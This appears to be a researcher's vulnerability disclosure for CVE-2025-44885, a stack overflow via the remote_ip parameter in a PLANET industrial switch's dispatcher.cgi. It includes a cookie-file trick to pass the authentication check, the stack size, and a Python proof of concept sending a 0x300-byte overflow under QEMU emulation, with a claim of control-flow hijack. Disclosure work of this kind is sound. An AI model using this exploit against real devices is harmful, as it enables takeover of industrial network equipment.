 ```yaml
---
title: web_snmpv3_remote_engineId_add_post_remote_ip
date: 2025-04-20 17:10:00
tags: cve
---
```






**Affected Product**: FW-WGS-804HPT

**Affected Firmware Versions**:  v1.305b241111

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44885





# FW-WGS-804HPT_v1.305b241111 introduced

The WGS-804HPT-V2 is a ruggedized industrial-grade Ethernet switch designed for harsh environments and mission-critical applications. As part of PLANET Technology's Industrial Automation Series, this 8-port managed switch combines Power over Ethernet (PoE+) capabilities with industrial durability, making it ideal for building automation, smart infrastructure, and IoT deployments.



Official Product Page: https://www.planet.com.tw/en/product/wgs-804hpt-v2



# web_snmpv3_remote_engineId_add_post_remote_ip

 I discovered a  stack overflow vulnerability in the Planet router.

By analyzing the dispatcher file in the bin directory, I found that the function web_snmpv3_remote_engineId_add_post  contains a stack overflow vulnerability.

The stack overflow can be triggered by remote_ip value, which leads to a memcpy stack overflow.

![image-20250321152223389](../res/202503211522484-17451404561846.png)

In the main function, there is an account authentication detection. We create a cookie_0 in the tmp directory, with the content of "20 0 0", and its function is to create a cookie with sufficient permissions to access this route.

```json
20 0 0
```



![image-20250417110630394](res/image-20250417110630394-17448591915039.png)

![image-20250417110648157](../res/image-20250417110648157-174485920924110-17451404561845.png)





![image-20250417110742170](res/image-20250417110742170-174485926377311.png)



Through IDA, it can be seen that the stack space is 0x178

﻿The content of the **poc**.py file is as follows:

```json
import os


a = 0x1017
var_name = "remote_ip"
b = 'a' * 0x300


poc_content = f"&cmd={a}&{var_name}={b}"
with open('poc', 'w') as f:
    f.write(poc_content)

command = (
    "sudo chroot . ./qemu-mips-static "
    "-E REQUEST_METHOD=POST "
    "-E HTTP_COOKIE='hid=0' "
    "-L ./lib "
    "-g 1234 "
    "./dispatcher.cgi "
    "< poc"  
)


os.system(command)




```



![image-20250417110813345](../res/image-20250417110813345-174485929505312-17451404561847.png)

![image-20250417110857449](../res/image-20250417110857449-174485933854013.png)



Through the above image, we can see that we have overflowed to 0x260 and successfully hijacked the control flow. If necessary, more can be overflowed.
